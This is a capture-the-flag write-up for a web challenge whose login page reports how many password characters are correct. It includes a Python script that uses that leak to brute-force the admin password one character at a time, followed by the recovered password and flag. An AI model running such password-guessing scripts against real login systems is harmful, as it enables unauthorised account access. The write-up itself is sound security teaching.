

# Grandma's Notes
## Introduction
My grandma is into vibe coding and has developed this web application to help her remember all the important information. It would work be great, if she wouldn't keep forgetting her password, but she's found a solution for that, too.

We get the following:
* http://52.59.124.14:5015

## Investigation
When opening the webstite we are greeted with a register and login function. The introduction hints towards the gradma having some implementation helping her remember her password. First we just try the random username `root` and password `root` and get back:



Since we know the user `root` doesn't exist, lets try registering root with the aformentioned credentials. When logging in we are presented with the following dashboard.


Given this, the flag is likely inside the notes of the grandma's account. Given she has developed the site and it looks pretty simple lets try some common administrator names starting with admin.

```
Invalid password, but you got 0 characters correct!
```

From here the tasks seems pretty stratight forward. Make a script which tries characters until the displayed correct characters value increments by one. Then moving on to the next character of the password until the a successfull login occurs.

## Exploitation

First step is creating a regular expression which can be used to scan the text of the response. It also needs to be able to capture the amount of correct characters.

```python
REGEX = re.compile(r"you got\s+(\d+)\s+characters?\s+correct", re.I)
```

From here we create a function for probing the website, comparing the received text to the regular expression, and finally checking if the login was successfull.

```python
def probe(session, attempt):
    # POST password, then GET index
    try:
        session.post(BASE + LOGIN, data={"username": USERNAME, "password": attempt}, allow_redirects=False, timeout=8)
        r = session.get(BASE + INDEX, timeout=8)
    except Exception:
        return None

    # compare response to regex
    m = REGEX.search(r.text or "")
    if m:
        # amount of correct chars
        return int(m.group(1))

    # login success check
    for tok in ("dashboard", "logout", "welcome", "admin", "ENO{"):
        if tok in (r.text or "").lower():
            return -1
    return None
```

The main function iterates over the character set, while responding to the outputs of the probing function. Adding to the known part of the password when a correct character is discovered, moving on when they are unsucessfull, returning the password upon completion, and communicating errors if they occur. 


```python
def main():
    p = argparse.ArgumentParser()
    p.add_argument("--max", type=int, default=64) # In case of false positives 
    p.add_argument("--delay", type=float, default=0.03)
    args = p.parse_args()

    s = requests.Session()
    known = ""

    for pos in range(args.max):
        print(f"pos {pos}, known='{known}'")
        progressed = False
        for ch in CHARSET:
            guess = known + ch
            res = probe(s, guess)
            print(f"  try '{guess}'")
            if res == -1:
                print("login success:", guess)
                return
            if isinstance(res, int) and res == len(known) + 1:
                known += ch
                print("found char:", ch)
                progressed = True
                time.sleep(args.delay)
                break
        if not progressed:
            print("stuck. test known:", known)
            return
```

After running the [complete python script](char_by_char.py) we get the following:

```console
login success: YzUnh2ruQix9mBWv
```

We can now use the username `admin` and password `YzUnh2ruQix9mBWv` to log onto the site. When logging in we see the following flag in the notes section.

```
ENO{V1b3_C0D1nG_Gr4nDmA_Bu1ld5_InS3cUr3_4PP5!!}
```
